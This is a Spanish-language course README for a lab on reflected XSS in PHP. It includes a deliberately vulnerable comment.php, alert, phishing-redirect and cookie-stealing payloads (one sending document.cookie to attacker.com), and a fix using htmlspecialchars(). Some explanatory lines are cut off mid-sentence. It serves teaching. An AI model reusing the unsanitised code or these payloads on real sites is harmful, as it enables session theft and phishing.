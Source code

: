 # PPS-Unidad3Actividad5-XSS
Explotación y Mitigación de Cross-Site Scripting (XSS)

Tenemos como objetivo:

> Recordar cómo se pueden hacer ataques de Cross-Site Scripting (XSS)
>
> Conocer las diferentes formas de ataques XSS.
>
> Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
>
> Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

# ¿Qué es XSS?
---
Cross-Site Scripting (XSS) ocurre cuando una aplicación no valida ni sanitiza l>
scripts maliciosos se ejecuten en el navegador de otros usuarios.

Tipos de XSS:
- **Reflejado**: Se ejecuta inmediatamente al hacer la solicitud con un payload>
- **Almacenado**: El script se guarda en la base de datos y afecta a otros usua>
- **DOM-Based**: Se inyecta código en la estructura DOM sin que el servidor lo >

---
## ACTIVIDADES A REALIZAR
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos realizando operaciones:

**Código vulnerable**
---
Crear el archivo vulnerable comment.php:

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~
Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando
el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado:
\[comentario\]". El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](files/xss1.png)

**Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

Ingresar el siguiente código en el formulario:

`<script>alert('XSS ejecutado!')</script>`

Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](files/xss2.png)

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](files/xss3.png)

Podemos capturar cookies del usuario (en ataques reales):

`<script>document.write('<img src="http://attacker.com/steal.php?cookie='+document.cookie+'">')</script>`
Con esto, un atacante podría robar sesiones de usuarios.

![](files/xss4.png)

**Mitigación**
---
 Sanitizar la entrada con htmlspecialchars()
~~~
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
echo "Comentario publicado: " . $comment;
~~~
htmlspecialchars() convierte caracteres especiales en texto seguro:
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;
Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

![](files/xss1.png)
![](files/xss1.png)

---
## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad5-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

